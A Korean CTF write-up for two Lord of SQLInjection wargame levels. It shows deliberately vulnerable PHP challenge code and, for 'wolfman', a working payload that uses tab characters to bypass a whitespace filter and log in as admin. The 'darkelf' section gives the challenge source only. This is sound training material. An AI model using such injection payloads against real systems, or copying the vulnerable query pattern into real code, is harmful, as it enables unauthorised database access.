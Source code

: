 <br><br><br>

-----

# LOS: wolfman

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 공백의 존재가 없어야 하는 문제이다.

<br>


## writeup

공백 입력이 제한되었기에 tab 기호를 사용해보자.

tab 기호는 %09를 통해 나타낼 수 있다.

```
pw='%09or%09id='admin
```

![image-20220608161827683](../img/image-20220608161827683.png)

<br><br><br>

-----

# LOS: darkelf

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
